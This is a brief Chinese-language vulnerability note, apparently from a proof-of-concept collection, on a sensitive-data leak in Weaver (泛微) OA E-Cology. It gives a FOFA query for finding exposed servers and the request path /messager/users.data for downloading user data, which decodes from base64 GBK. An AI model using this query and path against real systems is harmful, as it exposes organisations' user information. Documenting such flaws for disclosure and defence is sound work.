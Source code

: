 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面

![image-20220520134158756](./images/202205201341810.png)

验证POC

```
/messager/users.data
```

![image-20220520134209598](./images/202205201342693.png)

base64 GBK解码